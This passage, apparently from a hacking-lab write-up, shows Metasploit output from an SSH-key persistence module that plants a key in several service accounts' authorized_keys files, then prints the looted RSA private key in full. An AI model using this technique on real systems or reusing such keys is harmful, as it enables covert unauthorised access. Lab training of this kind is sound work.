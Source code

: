 ```
[+] Key Added
[*] Adding key to /var/spool/lpd/.ssh/authorized_keys
[+] Key Added
[*] Adding key to /var/spool/news/.ssh/authorized_keys
[+] Key Added
[*] Adding key to /var/spool/uucp/.ssh/authorized_keys
[+] Key Added
[*] Adding key to /var/www/.ssh/authorized_keys
[+] Key Added
[*] Post module execution completed
```

```
msf5 post(linux/manage/sshkey_persistence) > loot

Loot
====

host         service  type    name        content     info                      path
----         -------  ----    ----        -------     ----                      ----
192.58.78.3           id_rsa  ssh_id_rsa  text/plain  OpenSSH Private Key File  /root/.msf4/loot/20230324102030_Linux_persistenc_192.58.78.3_id_rsa_905412.txt
msf5 post(linux/manage/sshkey_persistence) > exit -y
```

```
root@attackdefense:~# cp /root/.msf4/loot/20230324102030_Linux_persistenc_192.58.78.3_id_rsa_905412.txt ssh_key
root@attackdefense:~# cat ssh_key 
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAurreCWW0VjrKvuLsZWK1VkUmTRkA7U5q9BFjpPHrQbV7dsij
V/HjaItyTAxhyf3L5Y0RbZD54TSCblI4pzh5CjagIAmcZY+4SxR+13V0h8zKIWWk
R/DyufgtffJd0OFaWfIbAZgecI6wLjPhcvZu4eInbB48qf/oK3Eu5GNzzgabL0Sv
fmAW0AcrjZgfQ6xyzndldfnBBDSsiUi959Np1KR3CYRU4zt/pw+v6zAxT3iF0o3I
XIbF74tM00uEFQM9+K3NbOsajuuIa0FEQcmKSQAB0ZV1j16wE/HhSLOMYAhI8PA/
qjEq5CX+Y1W9zjwxDs4KcjojcLu3AbqhVG0WgwIDAQABAoIBAQCw4Je4cRV85N3u
KUfh1bmNyZy5RSkCoNhg7yPjN6EwMfeMkgtgH+nYutZ+wO/UhUsh2xmaHs0EDVhL
piiyBaVqDkppbpEuBxB8ViK8dy71//+r2PrfhpZ1oGd/ORiy5vRN5S69uNmEpzSt
30j8PADWiQHswUuXgKfslp7jim1ExpAiBvirEOgfFgg/2n0+djdwTZsm/xer/p19
BlR7T1/0Kzi7rPZEMZP9T4IK/JFuD8jPzWMs8sGivUVJD35EnYK/p5hBjXMxFqWh
ztRwqFBhkMIqG79S2565JeKSh/6xofBqeqFHtAL8Hd7r5PzqZ3vccq43CPdcOFAU
vMcADLwJAoGBAOkmg7dtRe9Wxguvu7jv+a/j+ozny/YAuP0iiGSEYXWaHDaZguUq
zRTwSo7yhhhYYEuNzr2YAFZ3RHUnyB5+Wwob9mxxXLJfCpigyZe7IGoQiY/BmwQc
6CZeq3cabZGFzdavzQeVoSg9s0KiKT+SvlhxBknWwH8EMcPwHfrJJwd1AoGBAM0H
ttNl5JXmc46Q2KnFgz1IZfYRGG7nkGFilkwDLRcH9R6uQmkwDwIkxhzoSl/qlQvw
ibN6cRad60DVS9oxJrKuFly30gA5cDCLcR7HA2IA6SMeC3wlVQaUyAOOAShArlMC
z4P/aRVLEviMXGdn2XNen1UePDvFHWXmONw/q18XAoGAKO/FQsih9eMjhNvHNzKT
gamizWjJrBj2YiPVFOkVf6Oefou3qus39Qw32x+EIfQqfDma6jktHgF0+KkSfyAq
dfzw6JuC7iK35pKcstJ9X4Il1SLmR/OXY11N9+yg/mMjACX/9uvzzu/+cJ2uZmYq
m7bEpuRZCjQ/VKrtaKI3Ax0CgYEAkbu0+SgIxX/LjX9pcasBsPKf/rqCCnqwBnij
6h2r1B4E3izw6YGOeXCYHP4Dt4+vJ5Bu4FLcxT20dR3nT4z2O7VAEeFa9GvfUbIb
0suUnPmWvS5i7Xg/qnDghp5ONkVbY4ew5tsJ32fAcUibeai4SKfuSvs1xypBzidJ
LUxYTDsCgYB8LngQV8ABRxdbIpPZcCTA/NVygHyTy+afEHqBJNtlbFn/w1/Jg1r8
gXxDVYmZlhBKdeXl8UItxmLwmJmLua6ZLh7q33+U7COU3ioeMiGYN6K4se0rkDUL
KimPoGObu4mMjnhbPtT0QPNTW4yfht4kmXJ/3yqUVCp0cAU/FCPckQ==
-----END RSA PRIVATE KEY-----
root@attackdefense:~# ls -al ssh_key 
-rw-r--r-- 1 root root 1679 Mar 24 10:24 ssh_key

```
